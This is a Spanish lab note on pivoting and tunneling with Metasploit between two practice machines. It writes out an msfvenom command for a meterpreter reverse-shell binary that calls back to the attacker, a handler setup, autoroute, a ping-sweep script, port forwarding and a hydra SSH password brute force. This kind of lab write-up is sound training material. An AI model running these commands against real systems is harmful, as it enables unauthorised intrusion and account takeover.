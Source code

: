 [[Lab Pivoting, Tunneling - Synfonos]]
#pivoting 
Usaremos la máquina friendly 1 intermedia y la máquina basic de vulnyx máquina final:
![[Pasted image 20240615202221.png]]

Procedemos con la intrusión en la máquina friendly 1 hasta ser usuario root:
![[Pasted image 20240615202227.png]]

Ahora vamos a recibir esta conexión como meterpreter en la máquina atacante, por lo que creamos un nuevo payload con msfvenom:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
Y nos lo compartimos con la máquina víctima:
![[Pasted image 20240615202239.png]]

![[Pasted image 20240615202243.png]]
Y usamos el multi/handler de metasploit cargando el payload de meterpreter:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

![[Pasted image 20240615202254.png]]

![[Pasted image 20240615202302.png]]

Y recibimos el meterpreter:
![[Pasted image 20240615202316.png]]

Vemos las interfaces de red con el comando ipconfig, donde identificamos la segunda interfaz de red:
![[Pasted image 20240615202322.png]]

Enrutamos el tráfico con el módulo de autoroute:
```bash
use /multi/manage/autoroute
```

![[Pasted image 20240615202330.png]]
Y ahora tenemos que encontrar equipos levantados dentro de esta red interna de 10.10.10.0/24, por lo que usamos el siguiente script:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Lo compartimos:
![[Pasted image 20240615202340.png]]

Lo recibimos:
![[Pasted image 20240615202346.png]]

Y encontramos el host objetivo:
![[Pasted image 20240615202353.png]]

Ahora tenemos que hacerle un escaneo de puertos a esta dirección IP, por lo que usamos el módulo de portscan/tcp:
![[Pasted image 20240615202402.png]]

Y con los siguientes comandos realizamos el port forwarding, de tal forma que nos vamos a traer tanto el puerto 22 como el puerto 631:
```bash
portfwd add -l 222 -p 22 -r 10.10.10.8
portfwd add -l 631 -p 631 -r 10.10.10.8
```

![[Pasted image 20240615202410.png]]

Y aquí vemos el contenido de lo que corre por el puerto 631:
![[Pasted image 20240615202416.png]]

Detectamos el usuario:
![[Pasted image 20240615202422.png]]

Por lo que atacamos al puerto ssh que también nos hemos traído en el puerto 222 de mi máquina local:
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
